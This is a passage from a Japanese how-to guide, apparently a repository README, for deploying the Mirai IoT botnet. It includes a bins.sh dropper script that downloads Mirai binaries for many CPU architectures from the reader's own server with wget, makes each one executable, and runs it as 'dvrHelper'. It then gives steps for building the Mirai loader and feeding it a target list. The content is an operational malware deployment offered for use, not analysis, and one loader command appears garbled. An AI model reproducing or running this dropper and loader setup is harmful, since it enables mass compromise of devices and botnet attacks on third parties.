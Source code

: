 終わったら`/var/www/html`に移動し、`bins.sh`を作成します。
```
# cd /var/www/html
# touch bins.sh
```
次に、`bins.sh` を開いて、次のように記述します（`IP OR HOSTNAME:80`のところは自分の持っているvpsのIPか自分のIPアドレスに置き換えてください）。
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done

rm -f "
```
vpsをお持ちの方は、`/var/www/html`をsftpでアップロードしてください。<br>
※vpsをお持ちでない方は、そのままで結構です。<br>
本当にアップロードされたかどうかは、私の自身vpsとかあまり詳しくないので、ご自身でお確かめください。

ここで、Apacheサーバーを再起動します。
```
# sudo service apache2 restart
```
次に、`loader`をビルドするために、`Mirai-Source-Code-plus/loader/`に移動し、`loader`をビルドします。<br>
※移動コマンド省略します。
```
# chmod +x build.sh
# ./build.sh
```
と入力し、その後、このコードを入力しますが、ここにファイル名を入れてください --> file.txt ペーストする前に
```
# cat file.txt | ./loader wget http://dyn.com
```
これでインストールは完了です :)<br>
お疲れ様でした。一息ついて、コーヒーでも飲んでください。<br>
※小学生はコーヒーではなくジュースを飲んで一息ついてください。

### 参考資料
https://github.com/jgamblin/Mirai-Source-Code <br>
https://programmer.group/mirai-botnet-environment-setup-steps.html <br>
https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt <br>
https://www.youtube.com/channel/UCXM4xUOmJk3Px2qiG9x1ygg/videos <br>

英語での翻訳はDeepLですが、おかしなところがあるのでそこは温かい目でよろしくお願いします。
